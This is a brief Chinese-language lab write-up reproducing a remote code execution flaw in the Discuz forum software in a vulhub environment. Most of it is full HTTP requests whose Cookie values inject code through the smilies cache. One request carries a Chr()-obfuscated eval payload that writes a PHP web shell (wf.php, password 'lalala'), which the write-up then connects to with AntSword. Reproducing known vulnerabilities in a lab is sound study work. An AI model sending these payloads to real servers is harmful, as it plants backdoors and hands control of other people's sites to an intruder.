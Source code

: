 # 0x00 软件介绍
Discuz：流行的php实现的论坛程序

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

切换到对应目录下  
docker-compose up -d  
启动后，访问[http://172.16.35.128:8080/install/](http://172.16.35.128:8080/install/)来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

安装成功后，直接找一个已存在的帖子，向其发送数据包，将Cookie中的数据改为
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
```
请求如下
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
Cookie中的内容变为  
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
发送的请求如下  
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
然后使用蚁剑连接，地址http://172.16.35.128:8080/wf.php 密码lalala  
成功连接

# 0x06 踩坑记录
无

# 0x07 参考链接
无
